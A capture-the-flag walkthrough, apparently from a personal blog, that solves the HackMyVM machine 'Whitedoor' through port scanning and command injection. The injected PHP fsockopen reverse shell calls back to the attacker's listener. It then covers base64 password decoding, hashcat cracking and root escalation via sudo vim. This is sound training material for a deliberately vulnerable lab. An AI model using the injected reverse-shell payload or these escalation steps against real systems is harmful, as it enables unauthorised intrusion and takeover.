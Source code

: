 ```yaml
---
title: "Whitedoor - Pylon"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Whitedoor
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Whitedoor - Pylon
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|Whitedoor|
|Author:|[Pylon](https://hackmyvm.eu/profile/?user=Pylon)|
|Release date:|2023-12-15|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|reverse shell|

# 01. Entry
[Whitedoor](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor) is the second machine from [Pylon](https://hackmyvm.eu/profile/?user=Pylon). It is easier than the previous one and is recommended for beginners, if someone has not had any experience with this "sport", they can have some fun with it, and for the rest it is a piece of cake, which does not mean that it is bad.
{: .text-justify}
# 02. Beginning
In the beginning there was scanning:
{: .text-justify}
```bash
msf6 exploit(multi/handler) > workspace -a whitedoor
# [*] Added workspace: whitedoor
# [*] Workspace: whitedoor
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.179
# [*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-15 09:08 CET
# [*] Nmap: Nmap scan report for whitedoor.lan (172.16.1.179)
# [*] Nmap: Host is up (0.00060s latency).
# [*] Nmap: Not shown: 65532 closed tcp ports (reset)
# [*] Nmap: PORT   STATE SERVICE VERSION
# [*] Nmap: 21/tcp open  ftp     vsftpd 3.0.3
# [*] Nmap: | ftp-anon: Anonymous FTP login allowed (FTP code 230)
# [*] Nmap: |_-rw-r--r--    1 0        0              13 Nov 16 22:40 README.txt
# [*] Nmap: | ftp-syst:
# [*] Nmap: |   STAT:
# [*] Nmap: | FTP server status:
# [*] Nmap: |      Connected to ::ffff:172.16.1.89
# [*] Nmap: |      Logged in as ftp
# [*] Nmap: |      TYPE: ASCII
# [*] Nmap: |      No session bandwidth limit
# [*] Nmap: |      Session timeout in seconds is 300
# [*] Nmap: |      Control connection is plain text
# [*] Nmap: |      Data connections will be plain text
# [*] Nmap: |      At session startup, client count was 3
# [*] Nmap: |      vsFTPd 3.0.3 - secure, fast, stable
# [*] Nmap: |_End of status
# [*] Nmap: 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
# [*] Nmap: | ssh-hostkey:
# [*] Nmap: |   256 3d:85:a2:89:a9:c5:45:d0:1f:ed:3f:45:87:9d:71:a6 (ECDSA)
# [*] Nmap: |_  256 07:e8:c5:28:5e:84:a7:b6:bb:d5:1d:2f:d8:92:6b:a6 (ED25519)
# [*] Nmap: 80/tcp open  http    Apache httpd 2.4.57 ((Debian))
# [*] Nmap: |_http-server-header: Apache/2.4.57 (Debian)
# [*] Nmap: |_http-title: Home
# [*] Nmap: MAC Address: 08:00:27:CD:91:8F (Oracle VirtualBox virtual NIC)
# [*] Nmap: Device type: general purpose
# [*] Nmap: Running: Linux 4.X|5.X
# [*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
# [*] Nmap: OS details: Linux 4.15 - 5.8
# [*] Nmap: Network Distance: 1 hop
# [*] Nmap: Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
# [*] Nmap: TRACEROUTE
# [*] Nmap: HOP RTT     ADDRESS
# [*] Nmap: 1   0.60 ms whitedoor.lan (172.16.1.179)
# [*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# [*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.33 seconds
msf6 exploit(multi/handler) > services 
# Services
# ========

# host          port  proto  name  state  info
# ----          ----  -----  ----  -----  ----
# 172.16.1.179  21    tcp    ftp   open   vsftpd 3.0.3
# 172.16.1.179  22    tcp    ssh   open   OpenSSH 9.2p1 Debian 2+deb12u1 protocol 2.0
# 172.16.1.179  80    tcp    http  open   Apache httpd 2.4.57 (Debian)
```
There are 3 ports open:
{: .text-justify}
- **21/tcp** - FTP
- **22/tcp** - SSH
- **80/tcp** - Apache WWW

# 03. Reverse shell i WWW
There was nothing interesting on the ftp, it was a bit of a misnomer. But when we enter the website we see something like this:
{: .text-justify}
![01](/assets/images/hacking/2023/06/01.png)
{: .text-justify}
We see the message that only the **ls** command works:
{: .text-justify}
On the server, which I checked, there is probably no **nc** command, but we can immediately go further and do something like this:
## 03a. Listening 
On our server we run:
{: .text-justify}
```bash
nc -lvn -p 12345
```
```bash
# listening on [any] 12345 ...
```
## 03b. Web browser 
And in the web browser window we enter:
{: .text-justify}
```bash
ls; php -r '$sock=fsockopen("172.16.1.89",12345);exec("bash <&3 >&3 2>&3");'
```
After a while, **shell** will connect to us::
{: .text-justify}
```bash
# connect to [172.16.1.89] from (UNKNOWN) [172.16.1.179] 58258
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
# www-data@whitedoor:/var/www/html$ 
```
Sorry - **Pylon** - I took some shortcuts.
{: .text-justify}
# 04. Shell
Type commands:
{: .text-justify}
```bash
cd /home/
find .
```
```bash
# find: './Gonzalo': Permission denied
# ./whiteshell
# ./whiteshell/Downloads
# ./whiteshell/.profile
# ./whiteshell/.local
# ./whiteshell/.local/share
# find: './whiteshell/.local/share': Permission denied
# ./whiteshell/.bash_logout
# ./whiteshell/Documents
# ./whiteshell/Public
# ./whiteshell/Pictures
# ./whiteshell/Music
# ./whiteshell/.bashrc
# ./whiteshell/Desktop
# ./whiteshell/Desktop/.my_secret_password.txt
# ./whiteshell/.bash_history
```
```bash
cat ./whiteshell/Desktop/.my_secret_password.txt
```
```bash
# whiteshell:*****
```
We see the password, which is encoded with **Base64**. We decode twice and have access to the **whiteshell** account:
{: .text-justify}
```bash
base64 -d <<< haselkowbase64
```
# 04. User whiteshell
Being in the whiteshell account, we list all files from the **/home** directory
{: .text-justify}
```bash
find /home/
```
```bash
# /home/Gonzalo/.bash_logout
# /home/Gonzalo/Documents
# /home/Gonzalo/Public
# /home/Gonzalo/Pictures
# /home/Gonzalo/Music
# /home/Gonzalo/.bashrc
# /home/Gonzalo/Desktop
# /home/Gonzalo/Desktop/user.txt
# /home/Gonzalo/Desktop/.my_secret_hash
```
# 05. User Gonzales
We have a password that is easy to crack in the program: **Hashcat** or **John**
{: .text-justify}
```bash
hashcat -O -m3200 -a0 hashe\whiteshell.txt dict\rockyou.txt
```
# 06. root
Type:
{: .text-justify}
```bash
sudo -l
```
```bash
# Matching Defaults entries for Gonzalo on whitedoor:
#     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

# User Gonzalo may run the following commands on whitedoor:
#     (ALL : ALL) NOPASSWD: /usr/bin/vim
```
```bash
sudo /usr/bin/vim
```
In the **Vim** program:
{: .text-justify}
```bash
:!bash
```